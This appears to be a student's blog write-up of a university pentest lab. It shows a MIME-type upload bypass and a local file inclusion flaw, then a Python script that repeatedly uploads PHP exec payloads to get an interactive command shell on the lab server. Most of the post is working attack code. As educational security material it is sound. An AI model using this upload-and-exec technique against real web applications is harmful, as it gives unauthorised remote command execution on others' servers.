Just recently, I managed to finish all of my university
coursework somehow. One of the modules I had this term
was Web Application Hacking. The coursework for this
module was essentially to produce a pentest report for
a given web application which had many randomly generated
vulnerabilities.

I did a lot of interesting hacking stuff for this coursework
since the sheer amount of vulnerabilities present really
allowed me to get creative. There was however one thing
I achieved that I'm most proud of, and that's what this
post is about.

Essentially, I managed to get code execution using a
file upload vulnerability, but was really struggling to
get a shell. I tried weevely, netcat, bash over the tcp
file descriptor and php sockets but nothing would work.
Still not really sure why this was but I could send
commands and get a result back, so I was determined to
get some kind of shell with this code execution and
that's just what I did.

## File Upload and Code Execution

Firstly I'll just go over the file upload vulnerabilities
that I discovered.

The vulnerable entry point was a profile picture changing
form.



It was meant to only accept JPG or PNG files. Uploading
a file of another type was caught by a filter.



I managed to bypass this filter by editing the MIME type
with burp proxy. I just had a "test.php" file containing
some php to echo 1+1.



Once the upload post request was intercepted all I had to do
was change the MIME type from application/x-php to image/jpeg.



And it was successfully uploaded and stored on the server.



Now I could access the file directly and the code would
be executed.



Another slightly more interesting method was using
a local file inclusion vulnerability I had found
previously. I could upload a file containing php code
with a .jpg extension with no problem, but when accessed
directly the web server would try to handle it as an
image and nothing would happen. However, when included
with LFI, it would actually execute the code and display
the output in between the header and the footer.



So I had two different methods of uploading code to
the server, but now I actually wanted to use the
code execution repeatedly and in a convenient way.
As mentioned previously, a reverse shell was being
blocked somehow, so I would have to work with just
what I had got working so far.

Editing the file, uploading it through the web interface
then directly accessing it/including it to view the output
was a big faff. Not very efficient when trying to run
multiple commands in succession. Next I used burp
proxy's repeater to edit the command to be run then
resend the post request to upload the file. Then
I could just reload the file in the browser and the
new command would be executed so that was a bit better.

Still though, I figured there would be a way to automate
this process, and that's where python comes in.

## Developing the Shell

So, in order to make get and post requests, the requests
library had to be imported

    :::python
    import requests

Then, the target urls were defined. We needed the login url,
the image url to access it once it has been uploaded and the
image upload url to post the new "image" to

    :::python
    login_url = 'http://192.168.1.20/index.php'
    image_url = 'http://192.168.1.20/pictures/boop.php'
    upload_url = 'http://192.168.1.20/changepicture.php'

In order to upload a new profile picture we would need to
be signed in as a user, but how can we log in with python?
Requests has an ability to create sessions and perform
post and get requests using the session object.

First, a post login request was captured with burp proxy
in order to see what parameters needed to be included.



As can be seen in the captured request, three parameters
are needed: email, password and Login. These were then
defined in a python dictionary.

    :::python
    login_data = {
        'email':'bla%40bla.com',
        'password':'bla',
        'login':'Login'
    }   

Now a post request can be made to the login url defined
earlier with the parameters set in the dictionary.

    :::python
    with requests.Session() as s:
        login = s.post(login_url, data=login_data)

The session is now authenticated and we are logged in as
the bla account. I've demonstrated this in the interactive
python shell here:



The next challenge is sending a 
multipart/form-data request where the file contents is
the command we want to run surrounded by php exec code.
This turns out to be not as complicated as it sounds.

As explained in the [requests documentation](https://2.python-requests.org//en/latest/user/quickstart/#post-a-multipart-encoded-file)
posting a multipart/form-data request is as simple
as defining the data in a python dictionary or a list
of two item tuples. It's also stated in the documentation
that a string can be used as the file contents. Both
of these things are ideal for this task.

In this code snippet, the file is defined with the name
'boop.php', the content is php execing a command defined
by the cmd variable and the type is 'image/jpeg'.

    :::python
    files = [
        ('uploadedfile', 
            ('boop.php',
            '<?php echo exec("' + cmd + '");?>',
            'image/jpeg')
        )
    ]

This can then be posted to the upload url
using the session that we're logged into the bla account
on.

    :::python
    s.post(upload_url, files=files)

Now that the file with the payload has been uploaded,
all that needs to be done is to directly access it via
a GET request and we'll have the command output.

    :::python
    get = s.get(image_url)

To demonstrate I used the python shell with the previously
authenticated session object to post a payload
that will cat the hostname.



All of this can be put into a while loop that queries
the user for a command and prints the result.

    :::python
    while cmd != 'exit':
        cmd = input('> ')
        get = s.get(upload_url)
    
        files = [
            ('uploadedfile', 
                ('boop.php',
                '<?php echo exec("' + cmd + '");?>',
                'image/jpeg')
            )
        ]
        s.post(upload_url, files=files)
        get = s.get(image_url)
    
        print(get.text)

We now have a fully interactive shell where we can
enter commands and see the output immediately! There
did seem to be a slight issue though. Only one line
of output from the command was being returned.



To fix this, I changed the payload so that the
command entered was being piped into the "head" command.
Then, in a loop, the command would repeatedly be called
while the line of output of the command that was being
read would be incremented by 1. This was done until the
output was the same twice, indicating that the line counter
had reached the end of the output.

    :::python
    while get.text != old_get or i > 100:
        old_get = get.text
        files = [
                ('uploadedfile', 
                ('boop.php',
                '<?php echo exec("' + cmd + ' | head -n ' + str(i) + '");?>',
                'image/jpeg')
            )
        ]
        s.post(upload_url, files=files)
        get = s.get(image_url)
        i += 1
    
        if get.text != old_get:
            print(get.text)

Now we have a fully fledged shell where we can enter
commands and see the output in full!



## Adapting the Shell

What I originally set out to do was done, but I did
still want to adapt the shell to exploit the second vuln
I'd found where you can include a .jpg file and execute
the code within. This was a little more complicated as
the GET also returned the header and footer.

First the image url had to be updated.

    :::python
    image_url= 'http://192.168.1.20/pictures/page.php?type=pictures/boop.jpg'

Then, around the actual command execution including the
head trick to get the whole output, ^START^ and ^END^ were
echo'd before and after the command was run respectively.

    :::python
    '<?php echo("^START^"); echo exec("' + cmd + ' | head -n ' + str(i) + '");echo("^END^");?>',

Then a little function to filter out everything outwith
the tags including the tags themselves was made.

    :::python
    def parse(text):
        return text[text.find('^START^')+7:text.find('^END^')]
	
Finally, the exact same code could be used for printing
but just with the filter being applied.

    :::python
    if parse(get.text) != old_get:
        print(parse(get.text))

And now we have a fully functioning shell using
the second vulnerability.



Interestingly since this code was being run from
the LFI vulnerable file, the code executed from 
the webroot instead of the images directory like before,
so this is actually a little bit more convenient.

## Conclusions

Python's requests module is very handy and being able
to authenticate by logging in and then do actions with
that authenticated session is extremely useful and
something I didn't even know existed. I'll definitely
be playing about with that more in the future.

Also, doing this didn't get me any extra marks for the
coursework as far as I know, I just did it because 
I wanted to see if I could.

Thanks for reading :)
